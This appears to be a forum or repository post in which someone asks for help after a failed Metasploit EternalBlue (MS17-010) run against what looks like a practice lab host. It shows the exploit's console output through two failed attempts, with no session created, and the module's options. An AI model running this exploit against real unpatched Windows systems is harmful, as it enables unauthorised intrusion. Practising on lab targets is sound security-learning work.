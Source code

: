 ```sh
[+] 10.10.10.40:445 - Connection established for exploitation.
[+] 10.10.10.40:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.10.10.40:445 - CORE raw buffer dump (42 bytes)
[*] 10.10.10.40:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73  Windows 7 Profes
[*] 10.10.10.40:445 - 0x00000010  73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76  sional 7601 Serv
[*] 10.10.10.40:445 - 0x00000020  69 63 65 20 50 61 63 6b 20 31                    ice Pack 1      
[+] 10.10.10.40:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.10.10.40:445 - Trying exploit with 17 Groom Allocations.
[*] 10.10.10.40:445 - Sending all but last fragment of exploit packet
[*] 10.10.10.40:445 - Starting non-paged pool grooming
[+] 10.10.10.40:445 - Sending SMBv2 buffers
[+] 10.10.10.40:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.10.10.40:445 - Sending final SMBv2 buffers.
[*] 10.10.10.40:445 - Sending last fragment of exploit packet!
[*] 10.10.10.40:445 - Receiving response from exploit packet
[+] 10.10.10.40:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.10.10.40:445 - Sending egg to corrupted connection.
[*] 10.10.10.40:445 - Triggering free of corrupted buffer.
[-] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[-] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=FAIL-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[-] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[*] 10.10.10.40:445 - Connecting to target for exploitation.
[+] 10.10.10.40:445 - Connection established for exploitation.
[+] 10.10.10.40:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.10.10.40:445 - CORE raw buffer dump (42 bytes)
[*] 10.10.10.40:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73  Windows 7 Profes
[*] 10.10.10.40:445 - 0x00000010  73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76  sional 7601 Serv
[*] 10.10.10.40:445 - 0x00000020  69 63 65 20 50 61 63 6b 20 31                    ice Pack 1      
[+] 10.10.10.40:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.10.10.40:445 - Trying exploit with 22 Groom Allocations.
[*] 10.10.10.40:445 - Sending all but last fragment of exploit packet
[*] 10.10.10.40:445 - Starting non-paged pool grooming
[+] 10.10.10.40:445 - Sending SMBv2 buffers
[+] 10.10.10.40:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.10.10.40:445 - Sending final SMBv2 buffers.
[*] 10.10.10.40:445 - Sending last fragment of exploit packet!
[*] 10.10.10.40:445 - Receiving response from exploit packet
[+] 10.10.10.40:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.10.10.40:445 - Sending egg to corrupted connection.
[*] 10.10.10.40:445 - Triggering free of corrupted buffer.
[-] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[-] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=FAIL-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[-] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[*] Exploit completed, but no session was created.
```

For anyone reading, if you would like to correct me here is what my options looked like before sending this payload:
```sh
msf6 exploit(windows/smb/ms17_010_eternalblue) > options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS         10.10.10.40      yes       The target host(s), range CIDR identifier, or hosts file with syntax '
                                             file:<path>'
   RPORT          445              yes       The target port (TCP)
   SMBDomain                       no        (Optional) The Windows domain to use for authentication. Only affects
                                             Windows Server 2008 R2, Windows 7, Windows Embedded Standard 7 target
                                             machines.
```